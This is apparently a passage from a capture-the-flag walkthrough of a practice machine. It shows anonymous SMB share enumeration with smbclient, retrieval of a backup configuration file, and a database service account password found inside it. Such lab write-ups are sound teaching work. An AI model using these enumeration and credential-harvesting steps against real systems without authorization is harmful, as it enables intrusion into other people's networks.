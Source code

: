 	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 15.55 seconds


We can see that SMB ports are open and that a `Microsoft SQL Server 2017` service is running on `port 1433`.
Let's enumerate the SMB service with the `smbclient` tool using the following options:

	-N : No password
	-L : This option allows you to look at what services are available on a server

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-b5tzs8mew9]─[~]
	└──╼ [★]$ smbclient -N -L \\\\10.129.95.187\\
	
		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		backups         Disk      
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
	Reconnecting with SMB1 for workgroup listing.
	do_connect: Connection to 10.129.95.187 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
	Unable to connect with SMB1 -- no workgroup available

We have found some interesting shares. `ADMIN$` and `C$` cannot be accessed, but we can enumerate further on the `backups` share.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-b5tzs8mew9]─[~]
	└──╼ [★]$ smbclient -N \\\\10.129.95.187\\backups
	Try "help" to get a list of possible commands.
	smb: \> dir
	  .                                   D        0  Mon Jan 20 06:20:57 2020
	  ..                                  D        0  Mon Jan 20 06:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 06:23:02 2020
	
			5056511 blocks of size 4096. 2622487 blocks available
	smb: \> get prod.dtsConfig 
	getting file \prod.dtsConfig of size 609 as prod.dtsConfig (17.5 KiloBytes/sec) (average 17.5 KiloBytes/sec)

After a quick sniffing around we discover a file on this share which we can download to investigate its content.
The file will be saved in the directory from which we launched the SMB session.

The content of the config file:

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-b5tzs8mew9]─[~]
	└──╼ [★]$ cat prod.dtsConfig 
	<DTSConfiguration>
	    <DTSConfigurationHeading>
	        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	    </DTSConfigurationHeading>
	    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
	        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	    </Configuration>
	</DTSConfiguration>
